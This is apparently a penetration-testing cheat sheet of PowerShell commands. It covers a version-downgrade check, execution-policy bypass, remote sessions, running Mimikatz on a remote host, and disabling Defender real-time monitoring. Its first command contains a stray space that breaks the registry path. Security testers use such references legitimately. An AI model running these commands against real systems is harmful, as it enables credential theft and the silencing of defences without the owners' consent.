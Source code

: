 ```yaml
---
description: >-
  Various commands related to PowerShell usage during penetration tests or red
  team engagements.
---
```


# PowerShell

[Command and Scripting Interpreter, Sub-technique T1059.001](https://attack.mitre.org/techniques/T1059/001/)

#### Enumerate Installed Versions

**Background:** This can be helpful when determining if a PowerShell downgrade attack will work.

```bash
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngin e -Name PowerShellVersion).PowerShellVersion
```

If PowerShell 2.0 is installed then we can bypass multiple security protections enabled in more recent PowerShell Version 5 releases:

```bash
powershell.exe -Version 2
```

#### Bypassing Execution Policy

**Information:** Execution policies can be disabled in multiple ways. It is not a sufficient security protection to prevent unsigned scripts from being loaded.

```bash
powershell.exe -exec bypass 
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

#### Creating a PowerShell Session

**Background:** We can establish a persistent connection in PowerShell using Enter-PSSession. This can make life significantly easier and reduce overhead.

```bash
New-PSSession -ComputerName [IP] -Credential [USER]
Enter-PSSession -Session #
```

#### Executing Scripts Remotely

**Background:** We can execute scripts remotely with PowerShell.

```bash
Invoke-Command -Session # -FilePath C:\Users\Parzival\Desktop\Mimikatz.exe
```

#### Bypassing Real-time Monitoring

```bash
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
```
